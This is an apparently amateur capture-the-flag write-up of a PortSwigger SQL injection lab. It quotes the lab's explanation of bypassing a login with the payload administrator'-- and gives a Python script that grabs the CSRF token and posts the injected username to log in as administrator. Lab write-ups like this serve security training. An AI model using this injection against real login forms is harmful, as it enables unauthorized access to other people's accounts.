  <title>portswigger---login bypass and Subverting application logic
 Writeup  </title>
 

<!DOCTYPE html>
<html>
 
<body>
    <h1>portswigger---login bypass and Subverting application logic
 Writeup </h1>

    <h2>Challenge Description</h2>
    <p>  Subverting application logic
Imagine an application that lets users log in with a username and password. If a user submits the username wiener and the password bluecheese, the application checks the credentials by performing the following SQL query:

SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
If the query returns the details of a user, then the login is successful. Otherwise, it is rejected.

In this case, an attacker can log in as any user without the need for a password. They can do this using the SQL comment sequence -- to remove the password check from the WHERE clause of the query. For example, submitting the username administrator'-- and a blank password results in the following query:

SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
This query returns the user whose username is administrator and successfully
problem and solution of this lab
https://portswigger.net/web-security/sql-injection/lab-login-bypass
</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol> 
     Use Burp Suite to intercept and modify the login request.
Modify the username parameter, giving it the value: administrator'-- and this pytthon code
<pre>
import requests
from bs4 import BeautifulSoup
def solve(url,path="login"):
 # Target URL
 base_url = "https://0ad700ab04e214f480591cad0010007c.web-security-academy.net"
 login_url = base_url + "/login"
 # Create a session to persist cookies
 session = requests.Session()
 # Step 1: Get the CSRF token from the login page
 response = session.get(login_url, verify=False)
 soup = BeautifulSoup(response.text, "html.parser")
 # Extract CSRF token from input field
 csrf_token = soup.find("input", {"name": "csrf"})
 if csrf_token:
    csrf_token = csrf_token["value"]
    print(f"[+] Found CSRF token: {csrf_token}")
 else:
    print("[-] CSRF token not found. Exiting.")
    exit()
 # Step 2: Perform the SQL Injection attack
 payload = {
    "csrf": csrf_token,
    "username": "administrator' -- ",
    "password": "anyPassword"
 }

 # Send the POST request with CSRF token
 response = session.post(login_url, data=payload, verify=False)
 # Step 3: Check if login was successful
 print(f"Status Code: {response.status_code}")
 if "Your username is: administrator" in response.text:
    print("[+] Injection successful! Logged in as admin.")
 else:
    print("[-] Injection failed.")
#https://0ae700be049cfce18390e9b6003b0001.web-security-academy.net/filter?category=


 
</pre>
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">will solved after login as admin

    <h2>Conclusion</h2>
    <p>this is a medium chanllenge for work on  web anbd sqli and bypass login</p>

</body>
</html>
